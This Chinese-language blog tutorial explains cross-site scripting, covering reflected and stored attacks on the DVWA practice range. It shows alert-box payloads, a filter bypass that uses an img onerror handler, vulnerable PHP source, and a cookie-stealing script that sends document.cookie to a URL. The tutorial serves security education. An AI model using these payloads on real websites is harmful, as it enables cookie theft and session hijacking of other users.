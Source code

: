 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      XSS                 # 标题 
subtitle:   xss原理分析与案例           #副标题
date:       2019-09-30              # 时间
author:     kevin-leak                      # 作者
header-img: img/post/network security/bg-2019-30.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - security
    - h5
---
```


> 永远不要相信客户端传输的数据。

几句话介绍
----------

xss 是Cross Site Scripting的缩写，跨站脚本攻击。

输入框中注入js代码，利用js代码操作浏览器数据进行攻击，分为两种情况：

- 反射式，利用邮件或者其他形式在url里面注入js代码保存到页面中，进行攻击。
- 储存式，利用类似于评论这种可以交互显示的文本，注入js，回显在页面，进行攻击。




测试环境
--------

[dvwa的在线测试靶场](http://43.247.91.228:81/security.php) 



攻击原理
--------

### 案例

dvwa low 难度的xss攻击，http://43.247.91.228:81/vulnerabilities/xss_r/?name=kk，这里是已经提交了kk

<img src="https://www.crabglory.club//img/post/network security/images/xss/xss_low.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="100px" />

可以猜测，他应该是你输入什么就显示什么，输入下面的语句试试

（有的浏览器可能有所防护，用internet export）

```html
kk<script type="text/javascript">alert("kk");</script>
```

<img src="https://www.crabglory.club//img/post/network security/images/xss/xss_low_alter.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"  height="200px" />

可以很明确的知道，此时被攻击了，但如何获取信息给攻击者呢？

既然可以写入js脚本进行弹框，也能用js写其他的代码获取浏览器的其他信息。

造成这样的原因就是，**用户的输入直接被输入**



### 类别

其实本质都一样，可以区分的就是是一次攻击，还是长久性攻击



#### 反射型

##### 案例一

可能具有的防护是stript被过滤

dvwa medium难度等级

当输入，浏览器并没有产生xss攻击

```html
<img src="javascript:alert(1)">
```

再输入

```
<img src=1 onerror=alert(1) />
```

成功

<img src="https://www.crabglory.club/img/post/network security//images/xss/xss_low_freflected.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" height="100px"/>

源码

```php
<?php  
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // 这里进行了替换
    $name = str_replace( '<script>', '', $_GET[ 'name' ] ); 
    echo "<pre>Hello ${name}</pre>"; 
} 
?> 
```

##### payload

可以产生的攻击就好比，发一份邮件，点击访问一个连接，进行文本写入，执行js

```http
http://localhost:8001/content.html?txt=hello';alert('x')//
```



#### 存储型

存储型的攻击，就是将攻击存储到了数据库，但其他用户进行访问的时候，产生攻击。

##### 案例

dvwa 中low等级的store选项的攻击

- 先看一下是怎样的环境，类似于评论

  <img src="https://www.crabglory.club/img/post/network security//images/xss/xss_low_store_0.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />

- 输入payload

  ```html
  name：pp
  message：<img src=x onerror=alert(1)>
  ```

  <img src="https://www.crabglory.club/img/post/network security/images/xss/xss_low_store.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"/>

  可以清楚的知道，出现了xss弹框，这里就会存在攻击

- 用其他用户登入，chrome流浪器打开，发现出现弹框

  <img src="https://www.crabglory.club//img/post/network security//images/xss/xss_low_store_1.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px" />



##### payload

可以通过xss攻击，获取到当前浏览器的cookie，然进行冒充，下面就是payload。

```html
<script>window.open('url'+document.cookie)</script>
```